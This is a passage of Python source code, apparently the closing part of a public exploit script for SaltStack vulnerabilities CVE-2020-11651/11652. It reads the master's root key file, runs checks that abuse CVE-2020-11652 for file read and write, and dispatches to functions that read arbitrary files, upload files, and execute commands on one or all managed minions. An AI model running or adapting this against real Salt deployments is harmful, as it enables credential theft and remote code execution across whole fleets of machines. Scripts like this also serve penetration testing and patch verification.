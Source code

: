         if args.run_checks:
            # Assuming this check runs on the master itself, create a file with "secret" content
            # and abuse CVE-2020-11652 to read it.
            top_secret_file_path = '/tmp/salt_cve_teta'
            with salt.utils.fopen(top_secret_file_path, 'w') as fd:
                fd.write("top secret")

            # Again, this assumes we're running this check on the master itself
            with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
                root_key = keyfd.read()

            check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
            check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
            check_CVE_2020_11652_write1(debug, channel, root_key)
            check_CVE_2020_11652_write2(debug, channel, root_key)
            os.remove(top_secret_file_path)
            sys.exit(0)

        if args.read_file:
            pwn_read_file(channel, root_key, args.read_file, args.master_ip)

        if args.upload_src:
            if os.path.isabs(args.upload_dest):
                print('[-] Destination path must be relative; aborting')
                sys.exit(1)
            pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


        jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

        if args.exec:
            pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

        if args.exec_all:
            print("[!] Lester, is this what you want? Hit ^C to abort.")
            time.sleep(2)
            pwn_exec_all(channel, root_key, args.exec_all, args.master_ip, jid)


    if __name__ == '__main__':
        main()
